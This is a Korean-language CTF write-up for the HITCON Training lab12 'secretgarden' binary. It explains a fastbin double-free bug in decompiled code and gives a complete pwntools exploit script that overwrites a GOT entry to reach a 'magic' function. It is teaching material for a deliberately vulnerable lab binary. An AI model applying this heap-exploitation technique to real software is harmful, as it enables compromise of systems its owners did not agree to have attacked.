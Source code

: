 ```yaml
---
layout: post
title: "[HITCON Training] lab12"
comments : true
category : War Game
---
```


# 문제
***

secretgarden 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
secretgarden: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=22cb8aae67a3f8faed65bd339fa5b1eff20ae57d, not stripped
```

바이너리 코드

__add()__
```c
int add()
{
    ...
    size_t size; // [rbp-20h] 
    ...
    LODWORD(size) = 0;
    ...
    else
    {
        s = malloc(0x28);
        memset(s,0,0x28);
        printf("Length of the name :");
        if ((unsigned int)__isoc99_scanf("%u",&size) == -1 )
            exit(-1);
        buf = malloc((unsigned int)size);
        ...
        printf("The name of flower :")
        read(0,buf,(unsigned int)size);
        *((_QWORD *)s+1) = buf;
        printf("The color of the flower :");
        __isoc99_scanf("%23s", (char *)s+16);
        *(_DWORD *)s = 1;
        for(HIDWORD(size) = 0; HIDWORD(size) < 0x63; ++HIDWORD(size))
        {
            if (!*(&flowerlist + HIDWORD(size)))
            {
                *(&flowerlist + HIDWORD(size)) = s;
                break;
            }
        }
        ++flowercount;
        result = puts("Successful !");
    }
    ...
}
```

__del()__
```c
int del()
{
    ...
    if (flowercount)
    {
       printf("Which flower do you want to remove from the garden");
       __isoc99_scanf("%d",&v2);
       if (v2 <= 0x63 && *(&flowerlist + v2))
       {
           *(_DWORD *)*(&flowerlist + v2) = 0;
           free(*((void **)*(&flowerlist+v2)+1));
           puts("Successful");
       }
    }
    ...
}
```

64비트에서 fastbin은 0x20 - 0xb0 (16 바이트 간격) <br/><br/>

__del()__ 함수에서는 __add()__ 함수에서 flower name을 저장하기 위해 할당한 chunk를 free 한다. 이 때 해당 chunk가 free chunk인지 검증을 하지 않고 free를 하기 때문에 fastbin_dup 취약점이 존재한다. 

## fastbin_dup 취약점
__조건__
- 동일한 크기의 fast chunk의 할당 및 free가 자유로워야 한다.
- free된 fast chunk를 한 번 더 free할 수 있어야 한다. (double free bug)

<br/>

__공격 방법__
- 동일한 크기의 chunk 3개 할당 (chunk 1,2,3)
- chunk 1 free 후 chunk 2 free
- chunk 1 다시 free
- 위의 chunk와 동일한 크기의 chunk 3개 할당
- chunk 4와 chunk 6의 주소가 동일함

## exploit 방법
1. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복) 
2. __del()__ 함수를 통해서 첫 번재와 두 번재로 할당받은 chunk를 free한다.
3. __del()__ 함수를 통해서 첫 번째로 할당받은 chunk를 free한다.
4. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. chunk의 앞 8바이트에 (원하는 영역 -16) 을 쓴다.
5. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복)
6. 5번을 통해서 내가 원하는 영역을 chunk로 할당받을 수 있다. 

__주의할 점__ <br/><br/>
내가 원하는 chunk를 할당받기 위해서는 (원하는 영역 -8)에 해당 chunk의 사이즈가 정확히 setting 되어 있어야 한다. 즉 위에서는 (원하는 영역 -8)에 0x60이 저장되어 있어야 한다. 근데 사이즈 체크를 할 때 하위 4바이트만 가지고 체크하는 것 같다. 이 문제에서 (원하는 영역 -8)에 0x??00000000000060이 저장되어 있는데 할당이 된다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round4/lab12/secretgarden"

def add(length,name,color):
	p.recvuntil("choice : ")
	p.send("1")
	p.recvuntil("name :")
	p.sendline(length)
	p.recvuntil("flower :")
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)
	p.recvuntil("!\n")

def del_name(index):
	p.recvuntil("choice : ")
	p.send("3")
	p.recvuntil("garden:")
	p.sendline(index)
	p.recvuntil("Successful\n")

p=process(file_path)

got_sec=0x602002-8
magic=0x400c7b

add("80","3ffr3s","green")
add("80","w1ll_exploit","green")
#add("80","secret_garden","green")

del_name("0")
del_name("1")
del_name("0")

add("80",p64(got_sec),"ha_we")
add("80","plz!!!","ba_we")
add("80","asldkjf","123")

p.recvuntil("choice : ")
p.send("1")
p.recvuntil("name :")
p.sendline("80")
p.recvuntil("flower :")
p.send("AAAAAA"+"\x00"*8+p64(magic)*2)
p.recvuntil("flower :")
p.sendline("finish!!!")

p.interactive()
```

